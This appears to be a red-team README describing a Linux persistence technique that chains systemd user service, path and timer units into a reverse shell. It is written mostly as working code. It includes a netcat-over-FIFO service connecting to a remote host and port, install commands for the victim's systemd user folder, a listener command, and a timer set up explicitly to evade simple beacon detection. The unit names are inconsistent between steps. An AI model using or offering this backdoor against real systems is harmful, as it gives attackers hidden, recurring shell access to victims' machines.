 # Proxy Execution

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe` indirectly via a path-based unit.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

The path file (`execshell.path`) uses:

* The `PathExists` directive to monitor a path that should always exist - `/etc/passwd`
* The `Unit` directive to identify the unit file to execute when the path directive has been validated

The timer file (`execshell.timer`) uses:

* The `AccuracySec` directive to align service execution with the wider system
* The `OnCalendar` directive to execute the specified unit at the start of every minute
* The `Unit` directive to identify the unit file to execute when the timer is triggered
* The `RandomizedDelaySec` to avoid simple beacon detections
* The `Persistent` directive to reactivate this timer immediately if it missed previous activations

## Additional Notes

* The path `/etc/passwd` was chosen here because we can assume it will reliably exist on all Linux systems
* This is a modified version of the [ScheduledReverseShell](../ScheduledReverseShell) example;
  it is only meant to provide a way to avoid simple detections, much like how
  proxying binary execution through `rundll32.exe` works on Windows.
* Stopping all components reveals the dependency order between them:

  ```sh
  $ systemctl --user stop revshell.service
  Warning: Stopping revshell.service, but it can still be activated by:
    execshell.path
  $ systemctl --user stop execshell.path
  Warning: Stopping execshell.path, but it can still be activated by:
    execpath.timer
  $ systemctl --user stop execpath.timer
  $
  ```

## Step by Step

1. Stand up listener on attacker server

```sh
nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Service]
; only consider this service up if the ExecStart directive succeeds
; (just to show some variety when compared to ScheduledReverseShell's revshell.service)
Type=exec
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a path file to execute the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.path.html
[Path]
PathExists=/etc/passwd
Unit=revshell.service
```

4. Generate a timer file to execute the path unit at regular intervals (every minute in our case)

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=execshell.path
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/execpath.timer ~/.config/systemd/user/
ln -s `pwd`/execshell.path ~/.config/systemd/user/
ln -s `pwd`/revshell.service ~/.config/systemd/user/
```

5. Start the scheduled task

```sh
systemctl --user start execshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
